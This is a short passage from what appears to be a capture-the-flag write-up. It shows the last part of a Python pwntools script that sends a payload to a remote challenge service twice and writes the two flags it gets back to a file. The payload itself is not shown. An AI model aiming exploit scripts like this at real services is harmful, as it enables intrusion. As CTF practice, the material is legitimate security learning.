 ```python
flag1 = get_flag1(conn, payload)

print flag1

# Saving first flag in a file named "flags.txt"

with open("flags.txt", 'w') as f:

f.write("First Flag : " + flag1 + "\n\n")

# Connect second time

conn = remote(HOST, PORT)

flag2 = get_flag2(conn, payload)

print flag2

# Saving second flag in the "flags.txt file"

with open("flags.txt", 'a') as f:

f.write("Bonus Flag : " + flag2 + "\n\n")
```

![https://bufferoverflows.net/wp-content/uploads/2019/07/Selection_122-1024x291.jpg](https://bufferoverflows.net/wp-content/uploads/2019/07/Selection_122-1024x291.jpg)

Now we got the flags the right way